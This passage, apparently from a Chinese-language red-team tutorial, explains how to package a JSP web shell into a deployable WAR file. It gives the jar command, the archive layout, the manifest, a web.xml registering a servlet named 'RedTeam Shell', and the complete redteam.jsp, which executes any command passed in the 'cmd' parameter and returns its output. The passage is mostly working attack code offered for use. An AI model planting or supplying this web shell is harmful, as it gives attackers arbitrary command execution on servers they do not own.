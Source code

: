```
$ jar cvf redteam.war WEB-INF redteam.jsp 
```

redteam.war 的结构目录：

```
|-- META-INF
|   -- MANIFEST.MF
|-- WEB-INF
|   -- web.xml 
-- redteam.jsp 
```

META-INF/MANIFEST.MF 是用 jar 创建文件时自动创建的，包含 JAR 的信息，例如：应用程序的主入口点（需要调用的类）或者需要什么额外的类。这里生成的文件中没有什么特别的信息，仅包含一些基本信息：

```
Manifest-Version: 1.0 
Created-By: 1.6.0_10 (Sun Microsystems Inc.) 
```

WEB-INF/web.xml 文件必须手动创建，它包含有关 Web 应用程序的信息，例如 JSP 文件，或者更详细的应用描述信息，如果发生错误，使用什么图标显示或者错误页面的名称等

```
<?xml version="1.0" ?>
<web-app 

         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee
             http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd"
         version="2.4">
    <servlet>
        <servlet-name>RedTeam Shell</servlet-name>
        <jsp-file>/redteam.jsp</jsp-file>
    </servlet>
</web-app> 
```

redteam 的内容：

```
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
  String cmd = request.getParameter("cmd");
  Process p = Runtime.getRuntime().exec(cmd);
  OutputStream os = p.getOutputStream();
  InputStream in = p.getInputStream();
  DataInputStream dis = new DataInputStream(in);
  String disr = dis.readLine();
  while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
} }
%> 
```
